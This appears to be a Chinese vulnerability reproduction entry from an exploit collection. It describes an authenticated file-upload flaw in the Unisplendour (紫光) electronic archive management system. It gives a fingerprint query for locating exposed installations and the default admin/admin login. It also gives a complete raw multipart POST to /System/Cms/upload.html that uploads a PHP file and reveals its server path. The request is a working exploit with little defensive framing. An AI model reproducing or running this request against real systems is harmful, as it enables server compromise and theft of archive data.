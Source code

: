 # 紫光档案管理系统 upload.html 后台文件上传漏洞

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。
紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>紫光电子档案管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="紫光档案管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633168580711-690386c5-48bd-4162-b6ed-763c9f57ee73-8540126.png)

使用默认口令登录后台 admin/admin, 发送请求包

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661154882600-537af591-d2de-45f2-9761-9e83b8225e7f.png)

```php
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 614
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661155071062-f83d5dd4-b6be-4f8f-bbda-4064f63224df.png)

回显路径即为上传成功的文件路径

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661155322477-9425083c-ad96-4cc2-8888-c57aa6d86b2f.png)